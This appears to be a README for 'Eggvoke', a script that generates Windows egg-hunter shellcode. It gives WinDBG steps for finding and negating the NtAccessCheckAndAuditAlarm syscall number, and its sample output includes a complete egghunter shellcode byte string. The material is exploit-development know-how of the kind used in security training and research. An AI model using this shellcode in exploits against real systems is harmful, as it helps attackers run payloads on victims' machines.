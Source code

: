 # Eggvoke
Eggvoke is a program that will take your egg and the system call value and create egg hunter shellcode. The egg hunter used is very popular and widely used.

## How to use
To use Eggvoke it's pretty simple. You must first provide it two arguments on the command line. The first one is the value of the egg. This is what you have in your exploit and want to find. Next is the system call address you have. The script makes use of the `NtAccessCheckAndAuditAlarm` call and you will probably need to update the offset. I will show you a quick how-to when it comes to finding the new system call and converting it to something we can use. 

1. Go to WinDBG and run the command `u ntdll!NtAccessCheckAndAuditAlarm` this will and should provide you with the line `mov eax,1C6h` or similar where `1C6h` is our syscall.
2. To prevent any null bytes in the shell code we will do the following expression in WinDBG `? 0x00 - 0x1C6` which will give a negative number
3. Next to the number should be our hex value. We can put this hex value into our second argument

## Example Output
```
.------..------..------..------..------..------..------.
|E.--. ||G.--. ||G.--. ||V.--. ||O.--. ||K.--. ||E.--. |
| (\/) || :/\: || :/\: || :(): || :/\: || :/\: || (\/) |
| :\/: || :\/: || :\/: || ()() || :\/: || :\/: || :\/: |
| '--'E|| '--'G|| '--'G|| '--'V|| '--'O|| '--'K|| '--'E|
`------'`------'`------'`------'`------'`------'`------
--------------------------------------------------
 Developed by OracleOfMyst
--------------------------------------------------

[+] Egg       => oomm
[+] Hex       => 0x6d6d6f6f
[+] egghunter => ("\x66\x81\xca\xff\x0f\x42\x52\xb8\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x6f\x6f\x6d\x6d\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7")
```
